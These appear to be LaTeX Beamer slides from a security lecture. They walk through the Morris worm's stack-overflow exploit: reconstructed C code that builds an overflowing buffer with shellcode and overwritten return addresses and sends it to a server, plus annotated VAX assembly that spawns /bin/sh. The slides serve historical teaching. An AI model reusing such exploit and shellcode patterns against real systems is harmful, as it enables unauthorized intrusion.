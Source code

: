 
\begin{frame}[fragile,label=morrisEx]{actual example: Morris worm}
\begin{lstlisting}[language=C,style=smaller]
    /* reconstructed from machine code */
    for(i = 0; i < 536; i++) buf[i] = '\0';
    for(i = 0; i < 400; i++) buf[i] = 1;
    /* actual shellcode */
    memcpy(buf + i,
        ("\335\217/sh\0\335\217/bin\320\032\335\0"
         "\335\0\335Z\335\003\320\034\\274;\344"
         "\371\344\342\241\256\343\350\357"
         "\256\362\351"),
         28);
    /* frame pointer, return val, etc.: */
    *(int*)(&buf[556]) = 0x7fffe9fc;
    *(int*)(&buf[560]) = 0x7fffe8a8;
    *(int*)(&buf[564]) = 0x7fffe8bc;
    ...
    send(to_server, buf, sizeof(buf))
    send(to_server, "\n", 1);
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=morrisShell]{Morris shellcode (VAX)}
\begin{lstlisting}[language=myasm,morekeywords=chmk]
pushl   $68732f      // "/sh\0"
pushl   $6e69622f    // "/bin"
movl    sp, r10
pushl   $0
pushl   $0
pushl   r10
pushl   $3
movl    sp,ap
chmk    $3b  // switch to OS ("CHange Mode to Kernel")
\end{lstlisting}
\begin{itemize}
\item write string /bin/sh on the stack (path to ``shell'')
\item make OS request to run specified program
\end{itemize}
\end{frame}

